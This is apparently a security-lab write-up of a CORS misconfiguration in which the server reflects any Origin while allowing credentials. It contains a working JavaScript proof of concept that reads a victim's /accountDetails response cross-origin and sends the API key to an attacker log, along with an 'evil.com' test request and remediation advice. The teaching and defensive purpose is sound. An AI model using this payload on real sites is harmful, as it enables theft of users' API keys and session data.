


# CORS Misconfiguration Vulnerability – Reflected Origin with Credentials

## Vulnerability Overview

A **Cross-Origin Resource Sharing (CORS) misconfiguration** was identified in the user profile endpoint of the target application. The vulnerability allows an attacker to craft a malicious origin that is dynamically reflected in the `Access-Control-Allow-Origin` response header, combined with `Access-Control-Allow-Credentials: true`. This enables credentialed cross-origin requests, leading to unauthorized retrieval of sensitive user data, including the victim's API key.

**Severity:** High  
**CWE:** CWE-942 – Permissive Cross-domain Policy with Untrusted Domains  
**Attack Type:** CORS Misconfiguration Exploitation  

---

## Technical Details

### 1. Vulnerable Endpoint

- **Endpoint:** `/accountDetails`
- **Method:** `GET`
- **Description:** Returns authenticated user account details and API key via an AJAX request.

### 2. Initial Observation

Upon inspecting the response from `/accountDetails`, the server returned the following header:

```
Access-Control-Allow-Credentials: true
```

This indicates the server supports credentialed CORS requests, but initially, no `Access-Control-Allow-Origin` header was present in the response to same-origin requests.

### 3. Testing for Origin Reflection

I intercepted the request to `/accountDetails` using **Burp Suite** and appended a custom `Origin` header to test the server's CORS implementation:

**Modified Request:**
```
GET /accountDetails HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Origin: evil.com
...
```

**Server Response Headers:**
```
Access-Control-Allow-Origin: evil.com
Access-Control-Allow-Credentials: true
```

The server dynamically reflected the supplied `Origin` value back into the `Access-Control-Allow-Origin` header while maintaining `Access-Control-Allow-Credentials: true`. This confirms that the server accepts arbitrary origins for credentialed requests, which is a critical CORS misconfiguration.

> **[Screenshot 1: Burp Suite Repeater showing the request with `Origin: evil.com` and the response containing both `Access-Control-Allow-Origin: evil.com` and `Access-Control-Allow-Credentials: true`]**

    
---

## Proof of Concept (Exploit)

To demonstrate the impact, I crafted a malicious HTML page and hosted it on the provided exploit server. The script uses `XMLHttpRequest` with `withCredentials = true` to make a cross-origin authenticated request to the vulnerable endpoint and exfiltrates the victim's API key to the attacker-controlled log.

**Exploit Code:**
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key=' + this.responseText;
    };
</script>
```

**Steps to Reproduce:**
1. The victim is authenticated on the target web application.
2. The victim visits the attacker-controlled page containing the exploit code.
3. The script triggers a `GET` request to `/accountDetails` from the victim's browser.
4. The browser includes the victim's session cookies due to `withCredentials = true`.
5. The server responds with the victim's account details and reflects the attacker's origin, allowing the browser to return the response to the malicious script.
6. The response data (including the API key) is redirected to the attacker's access log.

### Result

The exploit successfully retrieved the administrator's API key from the victim's session.

> **[Screenshot 2: Access log showing the captured API key in the URL parameters, or the admin panel displaying the retrieved API key used to authenticate](./images/Access.png)**
```
    

## Impact

An attacker can steal sensitive data from authenticated users, including:

- API keys
- Session tokens
- Personally Identifiable Information (PII)

This can lead to full account compromise, unauthorized actions performed on behalf of the victim, or further attacks against internal services if the exposed API key grants privileged access.

---

## Remediation Recommendations

1. **Do Not Reflect Arbitrary Origins** – The `Access-Control-Allow-Origin` header should not echo the `Origin` request header value. Only trusted, whitelisted domains should be allowed.
2. **Avoid Wildcard with Credentials** – If credentials are required, `Access-Control-Allow-Origin: *` is not permitted by specification, but reflection should also be avoided for the same reason.
3. **Validate Origin Server-Side** – Maintain a strict allowlist of permitted origins and verify the `Origin` header against it before setting the CORS response headers.
4. **Minimize Credentialed CORS** – If cross-origin credentialed access is not essential, refrain from setting `Access-Control-Allow-Credentials: true`.
5. **Implement CSRF Protections** – While CORS misconfigurations can bypass some CSRF restrictions, standard anti-CSRF tokens should still be enforced.
